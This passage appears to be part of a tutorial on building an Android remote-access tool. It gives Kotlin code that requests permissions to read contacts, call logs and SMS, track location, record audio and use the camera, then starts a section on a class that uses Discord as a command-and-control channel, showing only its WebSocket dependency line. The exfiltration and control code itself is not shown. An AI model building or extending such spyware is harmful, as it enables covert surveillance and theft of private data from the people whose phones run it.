The permission here are required to read contacts, call log, SMS, GPS, recording audio, getting access to camera and Internet permission. Some of the permission are considered as "dangerous" which the app need to request the permission from user. Here's a function to get permission from user.

```kotlin
@Composable
fun RequestPermissionsAndExitIfDenied(context: Context) {
    val permissions = listOf(
        Manifest.permission.READ_CONTACTS,
        Manifest.permission.READ_CALL_LOG,
        Manifest.permission.READ_SMS,
        Manifest.permission.ACCESS_FINE_LOCATION,
        Manifest.permission.ACCESS_COARSE_LOCATION,
        Manifest.permission.RECORD_AUDIO,
        Manifest.permission.CAMERA
    )
    var allGranted by remember {
        mutableStateOf(
            permissions.all {
                ContextCompat.checkSelfPermission(context, it) == PackageManager.PERMISSION_GRANTED
            }
        )
    }

    val launcher = rememberLauncherForActivityResult(
        contract = ActivityResultContracts.RequestMultiplePermissions()
    ) { result ->
        val permissionStatusLog = buildString {
            result.forEach { (permission, isGranted) ->
                val status = if (isGranted) "GRANTED" else "DENIED"
                append("Permission: $permission -> $status\n")
            }
        }
        allGranted = result.all { it.value }

    }

    LaunchedEffect(Unit) {
        if (!allGranted) {
            launcher.launch(permissions.toTypedArray())
        }
    }
}
```

### Part 2

Here's the part where I created a new kotlin class thats works with Discord as C2. The class uses `WebSocketClient` which is something that I need to add in `build.gradle.kts`.


```txt
implementation("org.java-websocket:Java-WebSocket:1.5.2")
```
